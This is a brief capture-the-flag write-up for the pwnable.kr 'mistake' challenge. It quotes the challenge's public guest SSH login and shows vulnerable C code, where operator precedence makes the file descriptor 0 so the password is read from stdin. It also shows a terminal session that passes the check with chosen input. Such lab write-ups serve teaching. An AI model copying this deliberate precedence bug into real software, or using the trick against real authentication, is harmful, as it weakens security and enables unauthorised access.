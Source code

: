 # Description
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority

ssh mistake@pwnable.kr -p2222 (pw:guest)

# Vulnerability
```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
}
```
In this code, maybe programmer wanted to give fd with open function's return value and checks whether it is less than 0 or not.

As operator priority, `open("/home/mistake/password",O_RDONLY,0400) < 0` executed first and give the value to fd.

```c
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;		
}
```
Now It receives `pw_buf` with stdin(like scanf).

# Exploitation
```
mistake@ubuntu:~$ ./mistake 
do not bruteforce...
0000000000
input password : 1111111111
Password OK
Mommy, the operator priority always confuses me :(
mistake@ubuntu:~$
```
